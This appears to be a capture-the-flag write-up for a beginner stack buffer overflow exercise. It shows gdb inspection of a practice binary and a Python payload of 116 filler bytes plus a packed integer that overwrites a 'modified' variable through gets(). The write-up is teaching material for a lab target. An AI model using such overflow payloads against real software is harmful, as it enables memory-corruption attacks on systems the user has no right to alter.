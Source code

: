 ## ex00

### Objective
The goal of this challenge is to change the `modified` variable and see the success message "you have changed the 'modified' variable".

### Steps Taken

1. **Initial Analysis**:
    - Used `file` to determine the type of the binary.
    - Used `strings` to identify useful strings within the binary.

    ```sh
    file bin
    strings bin
    ```

2. **Disassembly**:
    - Used `gdb` to disassemble the binary and identify the `gets` function call, which is vulnerable to buffer overflow.

    ```sh
    gdb bin
    ```

3. **Debugging with GDB**:
    - Set breakpoints and inspected the stack to determine the buffer size and the location of the `modified` variable.

    ```sh
    break main
    run
    info registers
    x/32x $esp
    ```

4. **Crafting the Payload**:
    - Used a Python script to craft a payload that overflows the buffer and modifies the `modified` variable.

    ```python
    import struct

    buffer_size = 116
    new_value = 1

    payload = b'A' * buffer_size
    payload += struct.pack("<I", new_value)

    # Print the payload
    print(payload.decode('latin-1'))
    ```

5. **Execution**:
    - Provided the payload to the binary to achieve the objective.

    ```sh
    echo -e $(python -c 'import struct; buffer_size = 116; new_value = 1; payload = b"A" * buffer_size + struct.pack("<I", new_value); print(payload.decode("latin-1"))') | ./bin
    ```
![Succsess Flag](./images/image.png)

### Tools Used
- `file`
- `strings`
- `gdb`
- Python

### Educational Purpose
These methods and tools are used strictly for educational purposes to understand and protect against similar vulnerabilities. 

### Script
Include the Python script used to generate the payload:

```python
import struct
```

buffer_size = 116
new_value = 1

payload = b'A' * buffer_size
payload += struct.pack("<I", new_value)

# Print the payload
print(payload.decode('latin-1'))

